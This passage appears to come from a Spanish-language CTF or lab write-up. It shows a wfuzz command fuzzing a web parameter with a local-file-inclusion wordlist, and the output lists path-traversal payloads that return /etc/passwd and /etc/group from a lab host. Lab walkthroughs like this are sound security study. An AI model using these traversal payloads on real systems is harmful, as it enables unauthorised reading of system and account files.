 Al revisar utilizando **wfuzz** :

```bash
wfuzz -u "http://172.17.0.2/shop/index.php?archivo=FUZZ" -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt  --hl=44
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/shop/index.php?archivo=FUZZ
Total requests: 569

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                  
=====================================================================

000000051:   200        68 L     117 W      2253 Ch     "../../../../etc/passwd"                                                                                                 
000000053:   200        68 L     117 W      2253 Ch     "../../../../../../etc/passwd"                                                                                           
000000057:   200        68 L     117 W      2253 Ch     "../../../../../../../../../../etc/passwd"                                                                               
000000058:   200        68 L     117 W      2253 Ch     "../../../../../../../../../../../etc/passwd"                                                                            
000000055:   200        68 L     117 W      2253 Ch     "../../../../../../../../etc/passwd"                                                                                     
000000060:   200        68 L     117 W      2253 Ch     "../../../../../../../../../../../../../etc/passwd"                                                                      
000000062:   200        68 L     117 W      2253 Ch     "../../../../../../../../../../../../../../../../etc/passwd"                                                             
000000056:   200        68 L     117 W      2253 Ch     "../../../../../../../../../etc/passwd"                                                                                  
000000059:   200        68 L     117 W      2253 Ch     "../../../../../../../../../../../../etc/passwd"                                                                         
000000052:   200        68 L     117 W      2253 Ch     "../../../../../etc/passwd"                                                                                              
000000061:   200        68 L     117 W      2253 Ch     "../../../../../../../../../../../../../../etc/passwd"                                                                   
000000054:   200        68 L     117 W      2253 Ch     "../../../../../../../etc/passwd"                                                                                        
000000400:   200        90 L     133 W      1655 Ch     "../../../../../../../../../../etc/group"                                                                                
000000398:   200        90 L     133 W      1655 Ch     "../../../../../../../../etc/group"                                                                                      
000000399:   200        90 L     133 W      1655 Ch     "../../../../../../../../../etc/group"                                                                                   
000000401:   200        90 L     133 W      1655 Ch     "../../../../../../../../../../../etc/group"                                                                             
000000397:   200        90 L     133 W      1655 Ch     "../../../../../../../etc/group"                                                                                         
000000395:   200        90 L     133 W      1655 Ch     "../../../../../etc/group"                                                                                               
000000396:   200        90 L     133 W      1655 Ch     "../../../../../../etc/group"                                                                                            
000000394:   200        90 L     133 W      1655 Ch     "../../../../etc/group"                                                                                                  
000000404:   200        90 L     133 W      1655 Ch     "../../../../../../../../../../../../../../etc/group"                                                                    
000000402:   200        90 L     133 W      1655 Ch     "../../../../../../../../../../../../etc/group"                                                                          
000000403:   200        90 L     133 W      1655 Ch     "../../../../../../../../../../../../../etc/group" 

```